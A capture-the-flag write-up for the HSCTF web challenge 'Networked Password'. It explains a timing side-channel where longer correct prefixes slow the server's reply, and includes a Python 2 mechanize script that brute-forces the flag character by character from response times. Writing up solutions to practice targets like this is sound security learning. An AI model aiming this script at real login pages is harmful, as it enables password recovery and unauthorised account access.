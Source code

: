 Networked Password
==================
**Category:** Web

**Points:** 316 (dynamic)

**Description:** 
Storing passwords on my own server seemed unsafe, so I stored it on a seperate 
one instead. However, the connection between them is very slow and I have no 
idea why.  
https://networked-password.web.chal.hsctf.com/

-------------------------------------------------------------------------------

Solution
--------

It starts with a stupid guess. The description mentions connection speed, but
if testing with a random character in the submit form the site returns
“Incorrect Password” pretty quickly, really. So let's put in something longer.
“asdasdasd” also responds almost instantly. But entering the string “hsctf{”
creates a couple seconds of delay.

Hmm. It seems that the server is analyzing the passwords in such a way that
queries beginning with more of the flag take longer than queries with less of
the flag. Perhaps the backend is slowly comparing one character at a time, and
returning as soon as a mismatch is found. Or something to that effect&#8212;it
doesn't really matter.

This problem sort of reminded me of “A Simple Question” from picoCTF 2018, so I
reused some of my Python code from that question. My solve script is attached
below.

```python
#!/usr/bin/python2
# imyxh

import mechanize
import time

# init
br = mechanize.Browser()
br.open('https://networked-password.web.chal.hsctf.com/')
payl = 'hsctf{'

while 1:  # one iteration per char
    c = 48  # initial ASCII code

    while 1:  # guess char

        br.select_form(nr=0)
        attempt = payl + chr(c)
        br.form['password'] = attempt
        t0 = time.time()
        br.submit()
        resp = br.response().get_data()
        print('attempted char ' + chr(c) + ' with response time '
              + str(time.time()-t0))

        if c == 125:
            resp = raw_input('select character: ')
            payl += resp
            break

        c += 1

    print("CAUGHT: " + payl)
```

Yes, I know. It's Python 2. Blame the mechanize developers for not releasing a
Python 3 version of their library. But the essentials of that script are
summarized in a few steps:

1. define a payload variable `payl` that holds the characters of the flag that
   we know;
2. append ASCII characters to the payload one at a time, submitting the form
   and measuring the response time;
3. display the response times for each character to the console and allow the
   user to select a guess;
4. add the user's guess to the payload and repeat from step 2.

By the time we guess the `}` character, we'll have the entire flag. I definitely
could've made that script a lot cooler by automatically selecting a character
after it produced an outlying response time, but I was lazy and perfectly happy
with pushing buttons on my terminal.

